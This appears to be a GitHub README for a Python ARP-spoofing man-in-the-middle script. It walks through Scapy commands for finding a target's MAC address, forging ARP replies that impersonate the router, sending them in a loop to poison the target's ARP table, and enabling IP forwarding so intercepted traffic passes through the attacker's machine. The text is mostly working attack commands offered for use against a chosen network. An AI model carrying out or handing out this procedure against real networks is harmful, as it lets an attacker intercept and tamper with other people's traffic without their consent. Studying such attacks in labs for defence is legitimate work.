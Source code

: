 # ArpSpoof-MITM-Framework

        Script Usage (attack on a network with 3 machines: router, attacker, target):

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
    Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

    Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
            Getting mac address of target machine w/ spoofed ARP request :
            
                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address
                
                [-] arp_layer = ARP(pdst='{TARGETIP}')
                
                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet
                
                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast
                
                [-] print(answer) --> will show request and response if any received
                
                [-] print(answer[0])
                
                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                                                                                  
                
                [-] print(target_mac_address)

            Craftinfg Malicious packet:

                [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
                [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
                [-] packet.show() will show the contents of our malicious packet
                
                [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
            Arp-tables on target machine:

                [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
